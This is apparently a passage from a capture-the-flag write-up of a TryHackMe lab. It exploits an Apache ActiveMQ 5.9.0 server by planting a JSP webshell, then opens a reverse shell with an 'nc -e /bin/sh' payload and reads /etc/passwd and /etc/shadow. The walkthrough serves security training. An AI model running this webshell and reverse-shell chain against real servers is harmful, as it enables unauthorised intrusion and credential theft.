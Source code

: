 We will now use this exploit.
##### Command:
>python3 ActiveMQ_putshell.py -u http://[target]

```
└─$ python3 ActiveMQ_putshell.py -u http://[target]

ActiveMQ_put_path：/opt/apache-activemq-5.9.0/webapps/
ActiveMQ_put__txt：http://[target]:8161/fileserver/guo.txt
ActiveMQ_putshell：http://[target]:8161/admin/guo.jsp
```

Now the webshell is there, we can use it with the url ```http://[target]:8161/admin/guo.jsp?pwd=gshell&shell=uname -a```, as shown below.

![alt text](/assets/img/tryhackme/broker/injection.PNG "Command Injection")

Now we want a full reverse shell. We start a listener using rlwrap and netcat (rlwrap keeps the shell nice), on port 54321. We use the payload ```shell=nc -e /bin/sh <my IP> 54321```. This works! We now have a shell, as shown below.

##### Command:
>rlwrap nc -lnvp [local port]

```
└─$ rlwrap nc -lnvp 54321
listening on [any] 54321 ...
connect to [my IP] from (UNKNOWN) [target] 47850
```

After gaining access, we snoop around a little. We even have read permissions on the /etc/passwd and /etc/shadow files!

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

                        (...)

_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
activemq:x:1000:1000::/opt/apache-activemq-5.9.0/:/bin/bash
```
